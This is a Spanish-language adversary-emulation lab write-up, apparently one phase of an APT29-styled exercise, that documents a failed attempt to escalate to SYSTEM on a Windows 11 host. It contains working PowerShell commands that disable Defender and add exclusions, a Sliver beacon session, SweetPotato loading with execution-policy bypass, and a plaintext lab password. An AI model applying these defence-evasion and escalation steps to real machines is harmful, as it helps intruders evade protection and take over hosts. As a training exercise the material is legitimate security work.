





# Privilege Escalation — Operación GHOST FOREST
## Fase 8 — Escalada a SYSTEM en WKSTN-01
**Operación:** GHOST FOREST | **Adversario:** APT29 | **Framework:** MITRE ATT&CK v14  
**Operador:** Adrián Camacho | **Fecha:** 13/05/2026  
**Objetivo:** WKSTN-01 (10.0.2.8) — NT AUTHORITY\SYSTEM


> **Módulo M5 · Ruta: `[rama: host]`**
>
> **Objetivo único:** Escalar a NT AUTHORITY\SYSTEM en WKSTN-01.
>
> **Prerequisito real:** M4 (foothold en WKSTN-01).
>
> **Habilita:** control total del host — **rama host, no requerida para el objetivo de dominio**.
>
> **TTP:** T1134.001 · T1543.003

---

## Contexto táctico

Con beacon Sliver activo en WKSTN-01 como `ATACKCORP\backup_svc` (Domain Admin, Process Integrity Level: High), el objetivo de esta fase es escalar a `NT AUTHORITY\SYSTEM` mediante abuso de `SeImpersonatePrivilege` — un privilegio habilitado por defecto en cuentas de servicio y administradores bajo WinRM.

APT29 utiliza token impersonation para obtener SYSTEM cuando necesita acceso a recursos protegidos como LSASS, drivers o servicios del kernel. La técnica estándar son los **Potato attacks** (PrintSpoofer, DCOM, WinRM) que explotan Named Pipe Impersonation.

---

## 8.1 — Enumeración de privilegios
**Técnica MITRE:** T1057 — Process Discovery  
> 📸 Captura:  
> 📸 Captura: 

Desde la consola Sliver con el beacon activo:

```
sliver (EASY_PROFIT) > getprivs
```

**Resultado:**
```
Privilege Information for beacon.exe (PID: 3996)
Process Integrity Level: High

Name                            Description                          Attributes
SeIncreaseQuotaPrivilege        Ajustar las cuotas de la memoria     Enabled, Enabled by Default
SeSecurityPrivilege             Administrar registro de seguridad    Enabled, Enabled by Default
SeTakeOwnershipPrivilege        Tomar posesión de archivos           Enabled, Enabled by Default
SeLoadDriverPrivilege           Cargar y descargar controladores     Enabled, Enabled by Default
SeImpersonatePrivilege          Suplantar a un cliente               Enabled, Enabled by Default ← OBJETIVO
SeManageVolumePrivilege         Realizar tareas de mantenimiento     Enabled, Enabled by Default
SeUndockPrivilege               Quitar equipo de la estación         Enabled, Enabled by Default
SeCreateGlobalPrivilege         Crear objetos globales               Enabled, Enabled by Default
```

**`SeImpersonatePrivilege` habilitado** — vector de escalada confirmado via Potato attacks (T1134.001).

---

## 8.2 — Bypass de defensas
**Técnica MITRE:** T1562.001 — Impair Defenses: Disable or Modify Tools

### 8.2.1 — Desactivación de Tamper Protection (GUI)
> 📸 Captura: 

Windows 11 con Tamper Protection activa bloquea cualquier modificación de Defender via PowerShell o registro. Se requiere desactivación manual desde la GUI:

```
Windows Security → Virus & threat protection → 
Manage settings → Tamper Protection → OFF
UAC: ATACKCORP\backup_svc / Backup2024!
```

### 8.2.2 — Desactivación de Windows Defender
> 📸 Captura: 

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableScriptScanning $true

Get-MpPreference | Select DisableRealtimeMonitoring, DisableScriptScanning
# DisableRealtimeMonitoring: True
# DisableScriptScanning:     True
```

### 8.2.3 — Exclusiones de carpeta (AMSI bypass parcial)
> 📸 Captura: 

```powershell
Add-MpPreference -ExclusionPath "C:\Users\backup_svc\Documents"
Add-MpPreference -ExclusionPath "C:\Windows\Temp"

Get-MpPreference | Select ExclusionPath
# {C:\Users\backup_svc\Documents, C:\Windows\Temp}
```

---

## 8.3 — Token Impersonation via SweetPotato
**Técnica MITRE:** T1134.001 — Access Token Manipulation: Token Impersonation/Theft  
**Herramienta:** Invoke-SweetPotato.ps1 (PowerShell Empire)

```bash
# Preparar herramienta en Kali
cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-SweetPotato.ps1 /tmp/
```

```powershell
# Subir y ejecutar en WKSTN-01
upload /tmp/Invoke-SweetPotato.ps1
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\Invoke-SweetPotato.ps1
```

### Métodos intentados

| Método | Comando | Resultado | Causa |
|--------|---------|-----------|-------|
| PrintSpoofer (default) | `Invoke-SweetPotato -Command "whoami"` | ❌ Failed | No authenticated interception |
| DCOM | `-ExploitMethod DCOM` | ❌ Failed | RPC server not available |
| WinRM | `-ExploitMethod WinRM` | ❌ Failed | No authenticated interception |

---

## 8.4 — Análisis técnico del fallo

### Causa raíz
WinRM en Windows 11 genera **Network Logon tokens** (tipo 3) en lugar de Interactive tokens (tipo 2). Los Potato attacks requieren impersonar un token de alta integridad desde un pipe con autenticación, pero los tokens de red no tienen la capacidad de impersonación completa necesaria.

```
Network Logon (WinRM) → Token tipo 3 → Sin SeImpersonatePrivilege efectivo para pipes
Interactive Logon     → Token tipo 2 → SeImpersonatePrivilege funcional → Potato works
```

Los métodos de SweetPotato (PrintSpoofer, DCOM, WinRM) requieren que el proceso tenga un token interactivo o de servicio local — no de red.

### Vectores alternativos no disponibles
- **GodPotato.exe** — Sin acceso a internet para descarga; firma conocida detectada por Defender
- **getsystem (Sliver)** — Bug en v1.7.3: `panic: nil pointer dereference`
- **AMSI bypass en memoria** — Bloqueado por Defender incluso con Tamper Protection off

---

## 8.5 — Decisión táctica APT29

```
DECISIÓN: Abandonar escalada a SYSTEM en WKSTN-01

JUSTIFICACIÓN TÁCTICA:
  El beacon Sliver EASY_PROFIT opera como ATACKCORP\backup_svc
  con Process Integrity Level: High y membresía en Domain Admins.
  
  SYSTEM en WKSTN-01 solo aportaría:
  ✗ Dump de LSASS local (credenciales ya obtenidas via DCSync)
  ✗ Acceso a recursos SYSTEM (innecesario — DA tiene acceso total)
  ✗ Instalación de drivers (fuera del scope de la operación)
  
  El ruido adicional de continuar intentando escalada supera
  el beneficio operacional. APT29 prioriza el silencio.

ALTERNATIVA SELECCIONADA:
  Continuar con Fase 9 (Golden Ticket) desde DC-01
  donde backup_svc ya tiene acceso como Domain Admin.
```

---

## Resumen Fase 8

```
FASE 8 — Privilege Escalation
════════════════════════════════════════════════════════

TÉCNICA INTENTADA:  Token Impersonation (T1134.001)
HERRAMIENTA:        SweetPotato (Invoke-SweetPotato.ps1)
MÉTODOS PROBADOS:   PrintSpoofer, DCOM, WinRM

ACCIONES COMPLETADAS:
  ✅ T1562.001 — Tamper Protection deshabilitada (GUI)
  ✅ T1562.001 — Windows Defender deshabilitado
  ✅ T1562.001 — Exclusiones de carpeta configuradas
  ❌ T1134.001 — Token Impersonation fallido (limitación WinRM/Windows 11)

RESULTADO FINAL:
  SYSTEM no obtenido — decisión táctica APT29
  Beacon DA activo suficiente para objetivos de la operación

LECCIÓN APRENDIDA:
  Los Potato attacks requieren sesión interactiva o proceso
  de servicio local. WinRM genera Network tokens incompatibles
  con Named Pipe Impersonation en Windows 11.
```

---

**Siguiente fase:** [persistence.md](persistence.md) — Fase 9: Golden Ticket